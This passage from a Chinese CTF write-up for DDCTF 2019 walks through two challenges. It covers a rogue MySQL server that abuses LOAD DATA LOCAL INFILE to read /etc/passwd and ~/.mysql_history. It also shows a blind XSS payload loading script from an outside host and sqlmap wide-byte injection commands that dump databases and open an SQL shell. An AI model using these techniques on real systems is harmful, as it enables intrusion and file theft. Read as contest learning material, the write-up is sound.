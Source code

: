 而此时，我们客户机的Mysql是开启着的。  

同样，将客户机的Mysql关闭，agent.py运行，会提示未扫描到弱密码。mysql的进程名称是mysqld，我们直接修改`self.wfile.write(json.dumps(result))`为mysqld可以成功绕过服务器的判断。  

绕过了，然后呢？  
祭出我@Smi1e师傅的一篇blog：[MySQL LOAD DATA 读取客户端任意文件](https://www.smi1e.top/mysql-load-data-%E8%AF%BB%E5%8F%96%E5%AE%A2%E6%88%B7%E7%AB%AF%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6/)  
>[如何利用MySQL LOCAL INFILE读取客户端文件](https://www.anquanke.com/post/id/106488)

大意是指,主机A连接远程mysql服务器主机B的过程中，所有请求都是明文传输，而我们可以在主机B上伪造任意内容发送给主机A。
而在MySQL中，LOAD DATA LOCAL INFLIE语句会将本地内容传输给远端服务器，下面是执行LOAD DATA LOCAT INFILE的过程：  

`本地向远端服务器发起请求包，请求包含要传输的文件路径`->
`远端服务器对请求进行响应，响应内容为请求包中的文件路径`->
`本地发送响应包中的文件内容`  

如果我们可以伪造响应的任意内容，也就意味着能够读取到连接者本地的任意文件

>最重要的是伪造的服务端可以在任何时候回复一个file-transfer 请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。（前提是客户端已经请求了任意内容，幸运的时，绝大多数客户端都会在连接mysql成功时发送一系列类似@@version的初始化请求）
不过如果想要利用此特性，客户端必须具有CLIENT_LOCAL_FILES即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接mysql的时候加上--enable-local-infile。  

回归正题，为了与靶机建立连接，我们就需要让靶机认为已经连接上了我们的数据库，我们只需向其响应greeting以及authok的数据包即可，然后再发送精心构造好的数据包，让靶机把我们想要的文件给响应过来  
在github上已有相关的项目以部署这样的恶意mysql服务器：[Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)   
在这里以python的脚本为例：  

修改26行的filelist为我们想要读取的文件路径，假设为’/etc/passwd’，先开启agent.py欺骗靶机，告诉它我们已经开启了mysqld进程，再开启这个poc.py，然后让靶机扫描一下我们的客户机：  
![](http://imgs.12end.xyz/ctf/ddctf2019/9.png)
最后的文件信息会在当前目录下的mysql.log：  
![](http://imgs.12end.xyz/ctf/ddctf2019/10.png)  
root用户的mysql操作一般记录在：`~/.mysql_history`中，读取一下就可以拿到flag

### 欢迎报名DDCTF
作者：**evoA**  
太脑洞了，太脑洞了，太脑洞了  
一直以为是sql，直到用xss的exp发现有bot请求  
在报名页面的备注里只对sql进行一点过滤，但是xss没有任何过滤，直接`<script src=//xxxx></script>`即可  
通过xss平台读页面源码读到一个接口  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419111202-e6ca6fe6-6250-1.png)  
`http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=`
测了半天注入还是没东西，结果一堆人做出来后重新复测，注意到返回头GBK  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419111216-ef4871e0-6250-1.png)  
然后就是宽字节注入  
SQLmap加tamper都可以跑  
```
#所有数据库名  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --dbs --hex

#数据库表名  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --hex -D "ctfdb" --tables

#字段名  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --hex -D "ctfdb" -T "ctf_fhmHRPL5" --columns

#flag  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --hex --sql-shell
```